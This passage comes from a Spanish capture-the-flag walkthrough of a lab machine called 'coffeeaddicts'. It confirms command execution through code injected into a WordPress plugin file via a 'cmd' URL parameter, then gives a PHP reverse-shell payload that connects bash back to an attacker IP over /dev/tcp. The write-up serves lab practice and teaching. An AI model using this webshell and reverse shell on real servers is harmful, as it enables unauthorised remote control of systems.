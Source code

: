 ![Descripción](/assets/img/posts/cofeeaddicts/20250622010801.png)

Luego de inyectar el código acedemos a la siguiente URL, incorporando el parámetro `cmd=id`, con el objetivo de validar la ejecución:

``` bash 
http://coffeeaddicts.thm/wordpress/wp-content/plugins/akismet/akismet.php?cmd=id
```

![Descripción](/assets/img/posts/cofeeaddicts/20250622010843.png)

Con esto  se confirma la ejecución exitosa de comandos en el sistema a través de la inyección en el archivo `akismet.php`.

Con la capacidad de ejecutar comandos a nivel del sistema, procedemos a establecer una reverse shell para obtener acceso interactivo al entorno del sistema operativo de la víctima, colocando el siguiente payload:

```
<?php
$ip = "10.10.x.x"; // <- cambiar por tu ip 
$port = "1234"; // <- Puerto
@system("bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```

![Descripción](/assets/img/posts/cofeeaddicts/20250622014542.png)
